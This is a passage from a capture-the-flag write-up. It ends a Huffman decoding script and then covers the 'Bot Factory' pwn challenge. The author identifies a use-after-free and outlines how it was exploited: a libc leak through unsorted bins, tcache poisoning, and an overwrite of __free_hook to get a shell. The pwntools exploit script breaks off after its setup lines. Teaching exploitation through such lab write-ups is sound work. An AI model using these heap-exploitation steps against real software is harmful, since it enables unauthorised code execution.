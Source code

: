 ```Py
    out_data = bytearray()
    node = root
    for bit in bit_stream(bit_bytes, pad_bits):
        node = node.left if bit == 0 else node.right
        if node.is_leaf():
            out_data.append(node.sym & 0xFF)
            if len(out_data) == original_len:
                break
            node = root

    if len(out_data) != original_len:
        raise ValueError("decompression ended early/late")

    with open(out, "wb") as f:
        f.write(out_data)


if __name__ == "__main__":
    if len(sys.argv) != 3:
        sys.exit(f"Usage: {sys.argv[0]} <input.enc> <output.raw>")
    decode(sys.argv[1], sys.argv[2])
    print("OK – written", sys.argv[2])
```

![out.png](out.png)

## Bot Factory (489 pts, 5 solves)
<primary-label ref="pwn"/>

> You've infiltratred a NeuraTek bot factory. You just found a computer which seems to control the creation of bots. I'm sure it's possible to exploit it. You have to find the vulnerability and take control of the computer to stop this factory for creating new bots.
{style=note}
 
The vulnerability was quite simple.

```c
void __cdecl self_destruction(bot_entry *bots, uint64_t idx)
{
  printf("Bot n°%lu's self-destruction mode activated!\n", idx);
  puts("The bot will accomplish its duty");
  puts("BoOooMMM!\n\n");
  free(bots[idx].command);
}
```
`self_detruction` command free `bots[idx].command` but it forgets to clear the `bots[idx].command`.
leak libc address from `unsorted_bins` and `tcache poisoning` to AAW.

I overwrote `00000000001eeb28 V __free_hook@@GLIBC_2.2.5` and got the shell.
 
```py
from pwn import *
import sys

e = ELF("botFactory_patched",checksec=False)
libc = ELF("libc.so.6",checksec=False)
ld = ELF("ld-linux-x86-64.so.2",checksec=False)

nc = "nc 127.0.0.1 9999"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    #set max-visualize-chunk-size 0x300
```